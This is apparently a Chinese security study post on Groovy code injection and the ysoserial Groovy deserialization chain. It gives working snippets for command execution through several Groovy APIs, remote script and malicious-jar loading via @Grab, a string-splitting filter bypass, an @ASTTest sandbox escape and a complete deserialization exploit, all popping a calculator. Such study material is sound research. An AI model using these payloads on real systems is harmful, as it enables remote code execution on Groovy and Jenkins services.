







# 前言

Groovy 是一种基于 JVM 的开发语言，具有类似于 Python，Ruby，Perl 和 Smalltalk 的功能。Groovy 既可以用作 Java 平台的编程语言，也可以用作脚本语言。groovy 编译之后生成 .class 文件，与 Java 编译生成的无异，因此可以在 JVM 上运行。

在项目中可以引用 Groovy 的相关包依赖，分为核心包和模块包，如果想依赖全部包，可以使用 groovy-all。本条利用 Gadget 就是在 groovy 核心包中。

特点：

- 同时支持静态和动态类型；
- 支持运算符重载；
- 本地语法列表和关联数组；
- 对正则表达式的本地支持；
- 各种标记语言，如XML和HTML原生支持；
- Groovy对于Java开发人员来说很简单，因为Java和Groovy的语法非常相似；
- 可以使用现有的Java库；
- Groovy扩展了java.lang.Object；

# 环境搭建

```
<dependency>
  <groupId>org.codehaus.groovy</groupId>
  <artifactId>groovy</artifactId>
  <version>2.4.3</version>
</dependency>
```

# Groovy代码注入

Groovy的语法和java的基本语法非常相似，可以去W3school浅看一下[Groovy 基本语法_w3cschool](https://www.w3cschool.cn/groovy/groovy_basic_syntax.html)

一下脚本可以直接执行弹计算器的命令

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        def cmd = "open -a Calculator";
//        cmd.execute();
        println "${cmd.execute()}";
        println(cmd.execute())
    }
}
```



和java一样，得到的是一个process对象

至于回显方式就不需要再去用到I/O流了，直接用`.text`回显



```
//其他执行命令执行的方法
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"

//回显的方式
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}"
```

## MethodClosure



可以看到这个类的构造方法可以接受两个参数，一个是Object类型的owner，一个是String类型的method，并且存在一个受保护的房啊doCall通过反射的方法调用了owner的method

那我们只要能调用到doCall方法即可

在其父类Closure类存在一个公有的call方法，然后可以去反射调用doCall方法



Groovy

```
package Unser.Hessians.Groovy

import org.codehaus.groovy.runtime.MethodClosure

class test {
    static void main(String[] args){
        MethodClosure methodClosure = new MethodClosure("open -a Calculator", "execute");
        methodClosure.call();
    }
}
```

Java

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

public class hhh {
    public static void main(String[] args) {
        MethodClosure methodClosure = new MethodClosure("open -a Calculator","execute");
        methodClosure.call();
    }
}
```

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

public class CodeTest {
    public static void main(String[] args) throws Exception{
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(),"exec");
        methodClosure.call("open -a Calculator");
    }
}
```

根据命令执行怎么构造在设置具体的值，也可以直接通过反射调用docall方法

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.MethodClosure;

import java.lang.reflect.Method;

public class CodeTest {
    public static void main(String[] args) throws Exception{
        MethodClosure methodClosure = new MethodClosure(Runtime.getRuntime(),"exec");
        Method method = methodClosure.getClass().getDeclaredMethod("doCall", Object.class);
        method.setAccessible(true);
        method.invoke(methodClosure,"open -a Calculator");
    }
}
```

## String.execute() 方法

这个就是最开始提到的那种直接采用execute执行String类型的命令的方法

```
//其他执行命令执行的方法
Runtime.getRuntime().exec("calc")
"calc".execute()
'calc'.execute()
"${"calc".execute()}"
"${'calc'.execute()}"

//回显的方式
println "whoami".execute().text
println 'whoami'.execute().text
println "${"whoami".execute().text}"
println "${'whoami'.execute().text}"
def cmd = "whoami";
println "${cmd.execute().text}"
```

实际上就是调用 `Runtime.getRuntime().exec()` 方法执行系统命令：



## GroovyShell

这个类中的evaluate方法有多个重载，支持有GroovyCodeSource String File URI 等参数类型，能够通过Groovy代码写入或者本地加载或者远程加载Groovy脚本来执行命令

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyShell groovyShell = new GroovyShell();
        groovyShell.evaluate("'open -a Calculator'.execute()");
    }
}
```

加载本地脚本

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyShell groovyShell = new GroovyShell();
        Script script = groovyShell.parse(new File("/Users/DawnT0wn/Desktop/test.groovy"));
        script.run();
    }
}
```

加载远程脚本

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyShell groovyShell = new GroovyShell();
        groovyShell.evaluate(new URL("http://127.0.0.1:8082/test.groovy"));
    }
}
```

## GroovyScriptEngine

根据本地路径调用

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyScriptEngine groovyScriptEngine = new GroovyScriptEngine("/Users/DawnT0wn/Desktop");
        groovyScriptEngine.run("test.groovy","");
    }
}
```

远程调用

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyScriptEngine groovyScriptEngine = new GroovyScriptEngine("http://127.0.0.1:8888");
        groovyScriptEngine.run("test.groovy","");
    }
}
```

通过binding（groovy.lang.Binding）加载

```
package Unser.Hessians.Groovy


class test {
    static void main(String[] args){
        GroovyScriptEngine groovyScriptEngine = new GroovyScriptEngine("");
        groovyScriptEngine.run("/Users/DawnT0wn/Desktop/test.groovy",new Binding());
    }
}
```

## GroovyScriptEvaluator

GroovyScriptEvaluator的本质其实就是GroovyShell，但是呢，对于传入的参数需要是`org.springframework.scripting.ScriptSource`接口的对象

```
package Unser.Hessians.Groovy

import org.springframework.core.io.UrlResource
import org.springframework.scripting.groovy.GroovyScriptEvaluator
import org.springframework.scripting.support.ResourceScriptSource


class test {
    static void main(String[] args){
        UrlResource urlResource = new UrlResource("http://127.0.0.1:8888/test.groovy");
        ResourceScriptSource resourceScriptSource = new ResourceScriptSource(urlResource);
        GroovyScriptEvaluator groovyScriptEvaluator = new GroovyScriptEvaluator();
        groovyScriptEvaluator.evaluate(resourceScriptSource);

    }
}
```

## GroovyClassLoader

GroovyClassLoader是一个定制的类加载器，负责解释和加载java中的groovy类，重写了loadclass和defineClass方法

其中的parseClass方法可以解析文件或者字符串中的groovy类

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args){
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass(new URL("/Users/DawnT0wn/Desktop/test.groovy"));
        GroovyObject groovyObject = aClass.newInstance();
        groovyObject.invokeMethod("main","");
    }
}
```

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args) {
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass("class groovyTest{" +
                "static void main(String[] args){" +
                "println('whoami'.execute().text);" +
                "}" +
                "}");
        GroovyObject groovyObject = aClass.newInstance();
        groovyObject.invokeMethod("main", "");
    }
}
```

## ScriptEngine

这个就和java的spel这些表达式差不多了

`ScriptEngine`脚本引擎是被设计为用于数据交换和脚本执行的。`ScriptEngineManager`类是一个脚本引擎的管理类，用来创建脚本引擎，大概的方式就是在类加载的时候通过`SPI`的方式，扫描`ClassPath`中已经包含实现的所有`ScriptEngineFactory`，载入后用来负责生成具体的`ScriptEngine`。

在`ScriptEngine`中，支持名为`groovy`的引擎，可用来执行`Groovy`代码

```
package Unser.Hessians.Groovy

import javax.script.ScriptEngine
import javax.script.ScriptEngineManager

class test {
    static void main(String[] args) {
        ScriptEngine scriptEngine = new ScriptEngineManager().getEngineByExtension("groovy");
        scriptEngine.eval("\"open -a Calculator\".execute()");
    }
}
```

这里不能直接通过file读取文件，需要去实现读取文件内容

```Groovy
public class Groovy {

    public static void main( String[] args ) throws Exception {
        ScriptEngine groovyEngine = new ScriptEngineManager().getEngineByName("groovy");
        String code = readfile("/Users/alphag0/Desktop/Java/Security/src/main/java/org/vuln/groovy/exec.groovy");
        groovyEngine.eval(code);
    }
    
    public static String readfile(String filename) throws Exception {
        BufferedReader in = new BufferedReader(new FileReader(filename));
        String string = "";
        String str;
        while ((str = in.readLine()) != null) {
            string = string + str;
        }
        return string;
    }
}
```

# Bypass

```
package Unser.Hessians.Groovy;

import java.lang.reflect.Method;

public class CodeTest {
    public static void main(String[] args) throws Exception {
        Class<?> clazz = Class.forName("jav" + "a.la" + "ng.Run" + "time");
        Method method = clazz.getMethod("ge" + "tRu" + "ntime");
        Method method1 = clazz.getMethod("ex" + "ec", String.class);
        method1.invoke(method.invoke(null), "ope" + "n -a" + " Calcu" + "lator");

    }
}
```

## @AST注解执行断言

`Groovy`代码注入都是注入了`execute`方法，从而能够成功执行`Groovy`代码。但是在存在`Groovy`沙箱（`Jenkins`中执行存在`Groovy`沙箱）即只进行`AST`解析无调用或限制`execute`方法的情况下就需要用到其他技巧了。参考`Groovy`的[Meta Programming手册](http://groovy-lang.org/metaprogramming.html)，利用`AST`注解能够执行断言从而实现代码执行

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args) {
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass('''
@groovy.transform.ASTTest(value={
        assert Runtime.getRuntime().exec("open -a Calculator")
    })
    def x''');
    }
}
```

## @Grab注解加载远程恶意类

Grape`是`Groovy`内建的一个动态`jar`依赖管理程序，允许开发者动态引入不在`ClassPath`中的函式库。编写恶意`EXP`类，命令执行代码写在其构造函数中，然后编译成`jar`包即可，请求远程恶意`jar`包并导入恶意`EXP`类执行其构造函数，从而导致`RCE

```Groovy
public class Exp {
    public Exp() {
        try {
            java.lang.Runtime.getRuntime().exec("open -a Calculator");
        } catch (Exception e) { }
    }
}
```

```
package Unser.Hessians.Groovy

class test {
    static void main(String[] args) {
        GroovyClassLoader groovyClassLoader = new GroovyClassLoader();
        Class aClass = groovyClassLoader.parseClass('''
        @GrabConfig(disableChecksums=true)
        @GrabResolver(name="Poc", root="http://127.0.0.1:8888/")
        @Grab(group="Poc", module="EvilJar", version="0")
        import java.lang.String''');
    }
}
```

# Groovy反序列化

## 漏洞复现

```
package Unser.Hessians.Groovy;

import org.codehaus.groovy.runtime.ConversionHandler;
import org.codehaus.groovy.runtime.ConvertedClosure;
import org.codehaus.groovy.runtime.MethodClosure;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.annotation.Retention;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.Map;

public class hhh {
    public static void main(String[] args) throws Exception {
        MethodClosure methodClosure = new MethodClosure("open -a Calculator","execute");
        ConvertedClosure convertedClosure = new ConvertedClosure(methodClosure,"entrySet");
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

        Map map = (Map) Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),new Class[]{Map.class},convertedClosure);
        InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Retention.class,map);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(invocationHandler);

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}

```

## 漏洞分析

我们重点来关注org.codehaus.groovy.runtime的ConversionHandler类，这个类实现了invocationHandler并且重写了invoke方法



这里我们就很容易去想到动态代理的方式，这里的invokeCustom方法（在其子类ConvertClosure实现）



这里在满足条件后，可以调用Closure的call方法，前面的MethodClosure实现了这个接口，调用其call方法就可以进行命令注入

所以在这里，只要是可以去调用任意方法的readObject再把这个代理对象塞进去就可以了

所以我们就选到了CC1用到的AnnotationInvocationHandler，当然在yso中用到的就是CC2的入口点，在调用compare方法的时候去触发invoke方法


参考链接

[ysoserial分析之Groovy链 | RoboTerh](https://roboterh.github.io/2022/04/19/ysoserial分析之Groovy链/)

https://o5szcykwgn.feishu.cn/docx/Sv8OdItwpom7ADxlEM5c3dX4nvf